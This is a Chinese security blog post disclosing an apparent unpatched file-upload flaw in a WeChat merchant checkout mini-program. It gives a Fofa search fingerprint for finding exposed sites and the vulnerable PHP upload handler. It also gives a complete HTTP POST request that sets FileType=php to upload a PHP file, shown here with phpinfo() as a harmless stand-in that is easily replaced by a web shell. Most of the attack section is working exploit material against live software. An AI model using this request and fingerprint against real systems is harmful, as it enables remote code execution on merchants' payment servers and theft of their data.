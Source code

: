 #  (0day)微信公众号商家收银台小程序系统存在前台任意文件上传漏洞   
原创 Mstir  星悦安全   2024-11-15 04:00  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字关注我们 并设为  
星标  
## 0x00 前言  
  
**微信公众号程序，必须微信认证服务号，微信支付商家**  
  
**客户扫码，打开商家定义支付页面，输入金额和对应定义信息，提交微信支付，实现快速付款**  
  
**支持创建多个店铺，各个店铺自定义不同自定义表单。通过自定义表单实现订单自定义明细**  
  
**通过店铺自定义表单可以轻松建立，快捷收款、微信收银台、面对面收款、商品预约预订等扫码微信支付， 提升客户服务体验，商户快速获得精准订单数据，实现账款统计。**  
  
**通过打开自定义的表单页面，输入自定义的指定信息，可以实现订单收款。**  
  
**完全可自定义的表单字段，支持单行文本，多行文本，单选，多选，下拉选择，上传图片，时间。**  
  
**Fofa指纹:"/index.php?s=platform/index/captcha"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fr0w5NqA8l0xH4mcpTbkGK0szDic8fhdBYZG6TibVicicgIetibblicY29d5RRAfgXiaP2SZeibYxFmaLjcg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fr0w5NqA8l0xH4mcpTbkGKJhib0QiasRZUpQ803gWXKKuWxFIvGzWAUibb2By0ykNnmwiboKzZBtXictQ/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fr0w5NqA8l0xH4mcpTbkGK5Mrao8VJcOicQAy2ybNHz1KMP9Vws3vOic4gpuCaQI9LPEBoOKHY409g/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 0x01 漏洞分析&复现  
  
**位于 /library/deep/upload.iframe.php 文件中存在move_uploaded_file 函数上传文件，且过滤文件类型可通过GET传入FileType来自定义，导致漏洞产生.**  
```
<?php
  /*
$_FILES["uploadFileName"]["name"] - 被上传文件的名称 
$_FILES["uploadFileName"]["type"] - 被上传文件的类型 
$_FILES["uploadFileName"]["size"] - 被上传文件的大小，以字节计 
$_FILES["uploadFileName"]["tmp_name"] - 存储在服务器的文件的临时副本的名称 
$_FILES["uploadFileName"]["error"] - 由文件上传导致的错误代码 
*/
  //设置上传文件尺寸  例如：最大为500K 输入 500
  $MaxSize=$_GET["MaxSize"] ;//*1024
//设置文件限制格式 允许的附件类型 例如：gif/jpg/rar/zip
$FileType=$_GET["FileType"];
//设置文件的保存路径，
$savePath=$_GET["savePath"];
//返回到表单的值 例如：form1.fProducts_Pic
$backIdName=$_GET["backIdName"];
//定义上传后的文件名  0：自动取无重复的服务器时间字符串为文件名  '1：自动取源文件名  '字符串：自定义的文件名，如"mypic.jpg"
$saveName=$_GET["saveName"];
if(empty($saveName)){ $saveName=0; }

if( isset($_GET["action"])&&"add"==$_GET["action"] )
{
  //检查目录是否存在-----------
  if(file_exists('../../data/uploadfile')==false){
    mkdir('../../data/uploadfile' , 0755, true );
  }
  if(file_exists('../../data/uploadfile/'.$savePath)==false){
    mkdir('../../data/uploadfile/'.$savePath , 0755, true );
  }

  if ($_FILES["uploadFileName"]["error"] > 0)
  {
    echo "Error: " . $_FILES["uploadFileName"]["error"] . "<br />";
  }else{

    if( stripos( $FileType, get_file_extension($_FILES["uploadFileName"]["name"] ) )!==false ){
      $upload_file_name=upload_file_savename($_FILES["uploadFileName"]["name"],$saveName);
      move_uploaded_file($_FILES["uploadFileName"]["tmp_name"], '../../data/uploadfile/'.$savePath .'/'.$upload_file_name);//保存被上传的文件
      echo 'ok ';
      echo "上传成功,文件地址：<span style='color:#00f'>".'data/uploadfile/'.$savePath.'/'.$upload_file_name."</span><br><br>";
      ?>
      <script type='text/javascript'>
        window.onload=function(){
          var parentBackId=parent.document.getElementById('<?php echo $backIdName?>');
          parentBackId.value='<?php echo 'data/uploadfile/'.$savePath.'/'.$upload_file_name?>';
        }
      </script>
      <?php
    }else{
      echo '上传失败，请检查文件类型';
    }
  }
}
function upload_file_savename($upload_file_name,$save_name=0){
  $str_file_ext= get_file_extension($upload_file_name);  //得到扩展名
  $str_file_name='';
  switch($save_name){
    case '0':  
    $str_file_name=date('YmdHis').mt_rand(100,999);
    $save_name= $str_file_name.'.'.$str_file_ext;
    break;
    case '1':
    $save_name= $upload_file_name;
    break;
    default:
    $save_name=$save_name.'.'.$str_file_ext;
  }
  return $save_name;
}

//得到文件扩展名
function get_file_extension($file_name){
  $path_parts = pathinfo($file_name);
  return $path_parts["extension"];
}
?>
```  
  
**Payload:**  
```
POST /library/deep/upload.iframe.php?action=add&MaxSize=&FileType=php&savePath=&backIdName=&saveName=0 HTTP/1.1
Host: 127.0.0.1
Content-Length: 208
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywb0ftWeTnkfnoTM2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarywb0ftWeTnkfnoTM2
Content-Disposition: form-data; name="uploadFileName"; filename="666.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundarywb0ftWeTnkfnoTM2--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fZ0ljsjVWWlfO36ic1fT8ibV9b0IO28nDoZ59zJEpOQTibUBoWBCV444rYicknxqzKW5yWUKDI7YvxPQ/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fZ0ljsjVWWlfO36ic1fT8ibVrTciagdcT0TO3Oob7OqwllGa1B2ia3CVTR91aLXHNegNT9YgR9QwMVEw/640?wx_fmt=other&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**收银台源码关注公众号发送 241114 获取!**  
  
  
  
  
**进星悦安全公开群添加下方VX 备注 "进群"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fr0w5NqA8l0xH4mcpTbkGK5v6wyHcicibH4ia14Wq1n0fPvn1C0QPAe98oVABtMWOA8nRPfHia0YqAFw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
